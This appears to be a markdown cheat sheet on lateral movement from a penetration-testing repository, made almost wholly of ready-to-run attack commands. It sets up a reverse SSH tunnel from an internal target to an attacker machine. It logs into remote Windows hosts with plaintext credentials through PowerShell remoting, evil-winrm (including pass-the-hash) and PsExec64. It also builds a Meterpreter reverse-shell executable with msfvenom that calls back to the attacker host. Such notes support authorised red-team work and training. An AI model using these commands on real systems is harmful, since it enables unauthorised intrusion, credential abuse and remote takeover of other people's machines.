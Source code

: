# 06 - Lateral Movement

Index
- [SSH Tunneling](#SSH-Tunneling)
- [Windows New-PSSession](#Windows-New-PSSession)
- [Evil-winrm](#Evil-winrm)
- [PsExec64](#PsExec64)

## SSH Tunneling
Fron INTERNAL target to ATTACKER workstation:
``` bash
ssh -N -R 9000 $USER@$KALI
ssh -N -R 9000 sheliak@192.168.1.1
```

## Windows New-PSSession
``` powershell
$username = 'username';
$password = 'password';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.1.1 -Credential $credential                                 ## create a session
Enter-PSSession 1                                                                               ## login in session 1
```

## Evil-winrm
Linux tool to access a remote system via WinRM and obtain a shell.
``` bash
evil-winrm -i 192.168.1.1 -u 'username' -p 'password'
evil-winrm -i 192.168.1.1 -u 'username' -H '00000000000000000000000000000000'
```

## PsExec64
``` powershell
./PsExec64.exe -i \\TARGET -u $DIMAIN\$USER -p "$PASSWORD" powershell
./PsExec64.exe -i \\192.168.1.1 -u TEST\username -p "password" powershell
```

## Meterpreter reverse shell (1)
Payload for windows:
``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$KALI LPORT=80 -f exe > reverse.exe
```